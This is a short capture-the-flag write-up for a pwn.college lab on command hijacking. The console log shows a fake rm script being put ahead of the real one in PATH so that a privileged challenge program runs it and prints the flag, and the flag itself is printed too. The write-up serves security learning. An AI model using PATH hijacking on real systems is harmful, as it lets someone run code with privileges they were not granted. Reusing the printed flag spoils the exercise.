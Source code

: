 # CTF Challenge: hijacking_commands

## Table of Content

- commands-executed: chmod +x rm , ./rm , /challenge/run ,PATH="/home/hacker/rm:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:", echo $PATH
- flag :pwn.college{8_HBlRqCFQGtq6LPG4Opu2_PGyr.ddzNyUDLzETN0czW}


### Output:
```console
hacker@path~hijacking-commands:~$ chmod +x rm
hacker@path~hijacking-commands:~$ ./rm
cat: /flag: Permission denied
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH="/home/hacker/rm:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
./rm: line 1: cat: command not found
hacker@path~hijacking-commands:~$ /usr/bin/nano rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{8_HBlRqCFQGtq6LPG4Opu2_PGyr.ddzNyUDLzETN0czW}
```
